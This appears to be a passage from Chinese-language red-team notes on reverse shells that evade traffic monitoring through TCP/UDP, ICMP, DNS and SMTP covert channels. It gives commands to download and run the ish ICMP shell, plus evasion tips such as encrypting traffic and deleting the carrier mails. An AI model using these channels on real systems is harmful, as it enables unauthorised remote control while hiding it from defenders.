



## reverse_shell

这里说的反弹shell不是上面开头那里说的利用内部软件进行反弹，而是利用一些非常规协议来绕过一些安全设备的流量监测功能。

**tcp/udp shell**

tcp/udp的shell可以使用msf生成的tcp马、流量混淆推荐rc4和https偏执模式，也能够绕过一些防火墙。

**icmp shell**

使用ICMP来作为隐蔽通道的原理是：有一个服务端和一个客户端，当它们通信时会用到 ICMPECHO 和 ICMPECHOREPLY的数据部分。这就意味着通过ICMP包的数据部分可以发送和接收数据。


这里用python写了一个嗅探功能的小脚本 因为icmp是没有端口概念的，也就无法直接建立两台主机上ICMP应用程序的通信。所以程序需要从嗅探到的icmp包中再传给应用层，然后再执行其他的。



这里使用ish演示

```
wget http://prdownloads.sourceforge.net/icmpshell/ish-v0.2.tar.gz 
```

被控端

```
./ishd -i 6666 -t 0 -p 1024 -d 
```

控制端

```
./ish -i 6666 -t 0 -p 1024 127.0.0.1 
```



这样利用icmp传输可以绕过大部分的设备。

**DNS/smtp shell**

这里提一下DNS和smtp服务。之前做的分享中有关于SMTP协议传输shell的思路，其实是利用smtp协议可以出网的思路，写一个smtp的客户端和服务端对应发送和接受执行内容，传输为了方便演示使用的是明文，为了增加迷惑性，添加删除邮件功能，需要提高的就是可以对传输的文本内容进行混淆加密之类的，防止安全邮件网关根据关键字拦截邮件。DNS这个的话就是通过解析记录的内容来进行命令的执行，还可以配合dnslog来使用。

